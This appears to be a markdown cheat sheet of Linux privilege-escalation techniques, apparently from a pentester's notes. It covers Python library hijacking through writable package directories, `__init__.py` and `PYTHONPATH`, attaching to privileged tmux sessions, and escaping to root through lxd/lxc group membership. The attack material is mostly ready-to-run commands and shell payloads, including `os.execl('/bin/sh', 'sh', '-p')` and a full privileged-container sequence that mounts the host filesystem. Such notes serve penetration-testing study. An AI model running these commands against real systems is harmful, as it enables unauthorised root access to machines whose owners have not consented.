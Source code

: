 ## Python Library Hijacking

Do you control directories in the path to hijack imported libraries to python script?
- Wrong write permissions?
	- SUID/SGID permissions? - execute as root
	- Add for shell: `'import os; os.execl("/bin/sh", "sh", "-p")'
- What the imported Library Path(s)?
	1. `python3 -c 'import sys; print("\n".join(sys.path))'`
	2. use which `pip*` or variant to show default installation location like: `pip3 show $library` and check permission of the directory `ls -la /$path`, 
	3. if writable modify `__init__.py` (or others, but with `__init__.py` this file will run as the package is imported!) with some `os.system('sh')` and run the python script 
- `PYTHONPATH` environment variable
	- Ordering determines the ordering of search algorithm the directory before the actually used then we can hijack
	- `echo $PYTHONPATH`, it is also set in the `.*rc` files with `export` by customisation, but best practices on ordering are not always adhered to 
	- `sudo PYTHONPATH=/dev/shm` with hijacking files in the `/dev/shm` directory

## Hijacking Terminal Multiplexers Session

Can we access sessions that left active or is the process running as a privileged user?

[tmux](https://en.wikipedia.org/wiki/Tmux) 
```bash
ps aux | grep tmux
# Check socket path
ls -la /$socketPath
# Hijack by attaching to a tmux session
tmux -S $socketPath
tmux attach $session
```

## Find `lxd` and `lxc`?

Enumerate and file transfer an image
```bash
lxd version
lxc image list
# Check if user is in lxc/lxd groups
cat /etc/group | grep $USER
```
[Hacktricks lxd privesc due to group article](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
Similarly without building the image and using a image on the box:
 1. import image 
 2. run image 
 3. `/mnt` into box itself 
 4. start container and run sh
```bash
lxc image import ./alpine*.tar.gz --alias $myimage
lxc image list
lxc init $myimage $mycontainer -c security.privileged=true
lxc config device add $mycontainer  mydevice disk source=/ path=/mnt/root recursive=true
xc start $mycontainerkernel
lxc exec $mycontainer /bin/sh
cd /mnt/INTO/INTOAGAIN # Metaphorical PrivEsc method of a portal gun and pirate ship boarding. :)
```
